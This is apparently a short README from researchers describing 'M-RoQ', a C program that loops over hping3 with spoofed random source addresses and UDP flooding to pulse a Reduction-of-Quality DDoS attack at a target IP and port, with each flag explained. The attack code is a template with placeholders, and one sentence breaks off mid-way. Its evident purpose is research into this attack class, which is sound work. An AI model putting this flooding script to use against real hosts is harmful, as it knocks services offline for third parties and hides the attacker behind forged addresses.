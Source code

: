 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h><br>
#include <string.h><br>
#include <stdlib.h><br>
#include <time.h><br>
#include <unistd.h><br>
<br>
main()<br>
{<br>
	while(<time in seconds>)<br>
	{<br>
		system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");<br>
		usleep(<time in miliseconds>);<br>
        	time in seconds++;<br>
	}<br>
    	system("killall -9 hping3");<br>
}<br>

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.<br>
<br>
Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process.<br> 
<br>
Authors:<br>
Vinícius de Miranda Rios<br>
Pedro R. M. Inácio<br>
Damien Magoni<br>
Mário M. Freire<br>
